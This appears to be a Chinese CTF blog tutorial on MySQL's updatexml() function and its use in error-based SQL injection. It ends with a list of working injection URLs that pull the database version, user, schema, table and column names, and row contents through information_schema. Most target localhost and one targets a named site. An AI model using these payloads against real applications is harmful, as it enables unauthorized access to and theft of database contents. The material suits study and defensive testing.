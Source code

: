 ```yaml
---
title: 关于updatexml()报错注入的思考

date: 2019-11-13 9:23:36

categories: [CTF]

tags: [mysql]

---
```

## 0x01updatexml()的正常作用

updatexml()是MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数。<!-- more -->其正常语法：
`UPDATEXML (XML_document, XPath_string, new_value);`
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
第三个参数：new_value，String格式，替换查找到的符合条件的数据
作用：改变文档中符合条件的节点的值

如下是关于它正常用法的掩饰。

(1)执行如下sql语言创建环境：

```mysql
CREATE TABLE  xml1 (xxx VARCHAR(150));#创建一个表
INSERT INTO xml1 VALUES
('
<values> 
<name>lexsd6</name>
<text>frist xml date</text>
</values>');#插入第一个数据
INSERT INTO xml1 VALUES
('
<values> 
<name>lexs</name>
<text>secend xml date</text>
</values>');#插入第二个数据


```

(2) 使用`select * from xml1`查看

![updatexml1](iamge-updatexml1.png)



（3）执行`SELECT updatexml(title,'/values/text','one') FROM xml1;`语句。发现执行后，原来有<text>标签的地方连同标签里的内容都被替换成了‘one’。

![image-20200320235648716](image-20200320235648716.png)

## 0x02updatexml()报错注入的原因及注意点

由于updatexml的第二个参数需要<u>**Xpath**</u>格式的字符串,但如果在提交的不符合和Xpath格式,会用报错的形式将执行后的结果回显出了来.

例如:执行sql语句`select updatexml(1,concat(0x7e,(select database()),0x7e),1);`后,可以看到回显:

![image-20200321131351700](image-20200321131351700.png)

如上图,原本`select database()`的地方被执行了,显示出数据库名--bookshop.

在这里要注意的事：

(1.)由于updatexml的保错回显只能返回一个属性，所以如果一个表中用多行，需要用‘limit’来限制行数（元组数）为一。

(2.)在构建第二个参数时，要确保第二个参数不符合Xpath格式。有的函数符合Xpath格式可以用concat('不符合Xpath格式的字符串','要执行的恶意sql语句')来构造''

![image-20200321002711168](image-20200321002711168.png)

(3.)若要注入出的数据格式就是xml结构的数据则可以直接在第二个参数select:

![image-20200321160707020](image-20200321160707020.png)

(4.)用这个方法注出来的数据有长度限制。且在恶意代码前的参数字符越多，注出的有效信息越少。（如下图）.

![image-20200321161640552](image-20200321161640552.png)

so在有一张表有多行时最好用limit 一行一行查询,慎重使用group_concat函数.(group_concat可能显示不全,用substr来截取拼接)

![image-20200324151215694](image-20200324151215694.png)

## 0x03updatexml()的注入

(1.)爆数据库版本信息

http://127.0.0.1/sql.php?id=1 and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) ;#

(2.)爆出用户

http://127.0.0.1/sql.php?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)  ;#

(3.)爆出所用数据库

http://127.0.0.1/sql.php?id=1 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) ；#

(4.)爆全部数据库

http://www.hackblog.cn/sql.php?id=1 and uand  updatexml(1,concat(0x7e,(SELECT schema_name from information_schema.SCHEMATA  limit 0,1),0x7e),1);#

(5.)爆表
http://127.0.0.1/sql.php?id=1 and updatexml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1);#

(6.)爆字段

http://127.0.0.1/sql.php?id=1 and updatexml(1,concat(0x7e,(SELECT column_name from information_schema.columns where table_name='xml1' limit 0,1),0x7e),1);#

(7.)爆字段内容
http://127.0.0.1/sql.php?id=1 and  updatexml(1,concat(0x7e,(SELECT  title from xml1 limit 0,1),0x7e),1);#
















